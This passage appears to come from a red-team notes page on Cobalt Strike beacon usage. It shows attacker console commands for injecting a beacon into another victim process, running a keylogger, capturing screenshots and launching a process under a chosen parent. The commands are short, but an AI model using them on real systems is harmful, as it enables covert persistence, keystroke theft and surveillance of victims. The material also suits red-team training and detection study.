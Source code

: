 {% content-ref url="../defense-evasion/masquerading-processes-in-userland-through-_peb.md" %}
[masquerading-processes-in-userland-through-\_peb.md](../defense-evasion/masquerading-processes-in-userland-through-\_peb.md)
{% endcontent-ref %}

{% content-ref url="../../miscellaneous-reversing-forensics/windows-kernel-internals/exploring-process-environment-block.md" %}
[exploring-process-environment-block.md](../../miscellaneous-reversing-forensics/windows-kernel-internals/exploring-process-environment-block.md)
{% endcontent-ref %}

### Inject

Inject is very similar to metasploit's `migrate` function and allows an attacker to duplicate their beacon into another process on the victim system:

{% code title="attacker@cs" %}
```csharp
beacon> help inject
Use: inject [pid] <x86|x64> [listener]

inject 776 x64 httplistener
```
{% endcode %}

Note how after injecting the beacon to PID 776, another session is spawned:

![](../../.gitbook/assets/peek-2019-01-07-20-16.gif)

### Keylogger

{% code title="attacker@cs" %}
```csharp
beacon> keylogger 1736 x64
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-31-30.png)

### Screenshot

{% code title="attacker@cs" %}
```csharp
beacon> screenshot 1736 x64
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-33-51.png)

### Runu

Runu allows us launching a new process from a specified parent process:

{% code title="attacker@cs" %}
```csharp
runu 2316 calc
```
{% endcode %}
